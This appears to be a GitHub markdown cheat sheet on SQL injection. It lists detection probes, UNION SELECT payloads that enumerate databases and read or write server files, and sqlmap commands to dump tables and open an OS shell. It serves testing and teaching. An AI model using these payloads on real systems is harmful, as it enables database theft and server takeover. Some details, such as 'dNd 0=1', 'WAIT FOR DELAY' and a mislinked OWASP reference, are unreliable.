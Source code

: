 # SQL injection

The SQL injection is one of the most common code injection technique that aims at getting access to the database. It's possible by improper handling of user input by the application. 

Related to: <br />
-Language: SQL <br />
-Platform: Any (requires interaction with a SQL database) <br />

Types of SQL injection: <br />
1) Error based <br />
2) Boolean based blind <br />
3) Time based blind <br />

Toolset: Burp Suite, SQL Map. <br />

Detection
-----------------------------------------------------------------------------

Detection of Error based SQL injection:
```
'
"
#
;
)
```
Encoding:
```
%27
%22
%23
%3B
```
Multiple encoding:
```
%%2727
%%2222
%%2323
%%3B3B
```
Detection of Boolean based blind SQL injection:<br />
TRUE statements:
```
aNd 1=1
aNd 21=21
anD 1=1;//
orDeR bY 1
```
FALSE statements:
```
dNd 0=1
anD 9=2
anD 57=276;//
ordEr bY 1000000000000
```
Characters to use instead of spaces:
```
+ 
/**/
%20
```
Comments to end the queries:
```
/*
//
#
%23
--
```

Detection of Time based blind:
```
aNd sleep
SLEEP(15)
BENCHMARK(100000000, rand())
WAIT FOR DELAY '00:00:15'
WAIT FOR TIME '00:00:15'
```


Exploitation
-----------------------------------------------------------------------------

General select syntax:
```
UniOn selEct [number of columns] [comment]
```

Example: Assume that there are two columns and the second column can be used to display data from db.
```
Seleting database version:
UniOn selEct 1,version() /*

Database:
UniOn selEct 1,database() /*

Database user:
UniOn selEct 1,user() /*

Database tables:
UniOn selEct 1,table_name frOm information_schema.tables where table_schema = '[database name]' /*

Table Columns:
UniOn selEct 1,column_name frOm information_schema.columns where table_name = '[table name]' /*

Selecting data from table:
UniOn selEct 1,[column name] frOm [table name] /*

Reading files:
UniOn selEct 1,load_file('file location') /*

Writing files:
UniOn selEct null,[file content] inTo outfile '/location/to/write/file/to' /*
```
Notes:<br />
When you executing queries you need to consider encodings.<br />

Example of encoding query to utf8:
```
UniOn select table_name COLLATE utf8_general_ci,table_schema COLLATE utf8_general_ci,'1' from information_schema.tables
```

SQL Map
-----------------------------------------------------------------------------

```
sqlmap -u [url] --- scan the provided url

sqlmap -u [url] —-dbs --- show the databases 

sqlmap -u “url” —-tables -D [database name] --- show all tables from [database name]

sqlmap -u “url” —-columns -T [table name] -D [database name] --- show all columns from [table name] in [database name]

sqlmap -u “url” -T [table name] -D [database name] —-dump --- show all data from [table name] in [database name]

sqlmap -u “url” —-os-shell --- OS shell 

sqlmap -u “url” —-sql-shell --- SQL shell
```

References:  
-----------------------------------------------------------------------------
[Wikipedia](https://en.wikipedia.org/wiki/SQL_injection)   
[Owasp](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))  
